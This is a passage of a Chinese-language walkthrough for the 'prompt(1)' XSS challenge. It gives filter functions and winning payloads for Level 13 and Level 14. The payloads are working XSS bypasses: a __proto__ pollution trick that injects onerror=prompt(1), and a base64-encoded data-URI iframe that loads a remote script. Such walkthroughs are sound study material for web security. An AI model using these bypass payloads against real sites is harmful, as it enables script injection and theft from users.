 ```
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}

```

### 答案

59 个字符，通杀所有浏览器

```
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}

```

## Level 14

* * *

这个题目使用 base64 绕过。

### 代码

```
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');
    return '<img src="' + input + '">';
}

```

### 答案

firfox 下 94 个字符

```
"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=

```
